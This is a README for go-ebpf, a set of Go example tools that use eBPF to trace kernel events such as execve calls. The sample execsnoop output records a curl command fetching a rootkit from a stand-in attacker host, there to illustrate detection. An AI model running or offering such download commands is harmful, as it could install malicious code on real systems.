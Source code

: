 # go-ebpf

[![Build Status](http://img.shields.io/travis/andrewkroh/go-ebpf.svg?style=flat-square)][travis]
[![Go Documentation](http://img.shields.io/badge/go-documentation-blue.svg?style=flat-square)][godocs]

[travis]: http://travis-ci.org/andrewkroh/go-ebpf
[godocs]: http://godoc.org/github.com/andrewkroh/go-ebpf

go-ebpf is a collection of example tools that use [eBPF][ebpf] to collect
metrics and data from the Linux kernel _without using [bcc][bcc]_. The eBPF
programs are written in restricted C and then compiled into eBPF bytecode
using `clang` and LLVM (`llc`). The bytecode is shipped with the Go program
to avoid having a runtime dependency on `clang` and `llc` (normally you don't
want to have compilers on your production systems).

If the kernel's JIT compiler is enabled the eBPF bytecode will be translated
into native machine code for better performance. The JIT compiler is currently
available for the x86-64, arm64, and s390 architectures. It can be enabled by

`echo 1 > /proc/sys/net/core/bpf_jit_enable`

[ebpf]: https://en.wikipedia.org/wiki/Berkeley_Packet_Filter
[bcc]:  https://github.com/iovisor/bcc

## Installation and Usage

Package documentation can be found on [GoDoc][godocs].

Installation can be done with a normal `go get`:

```
$ go install github.com/andrewkroh/go-ebpf/cmd/execsnoop
```

In order to run the `execsnoop` example the `CAP_SYS_ADMIN` capability is
required. Therefore the program should be run as root.

```
sudo $GOPATH/bin/execsnoop -json
```

Then in a second terminal if you run a program you will see info about all
the `execve` syscalls. For example

```json
{
  "pid": 32438,
  "uid": 1000,
  "gid": 1000,
  "parent_comm": "bash",
  "exe": "/usr/bin/curl",
  "args": [
    "curl",
    "-O",
    "https://badguy.com/rootkit.tar.gz"
  ],
  "return_code": 0
}
```

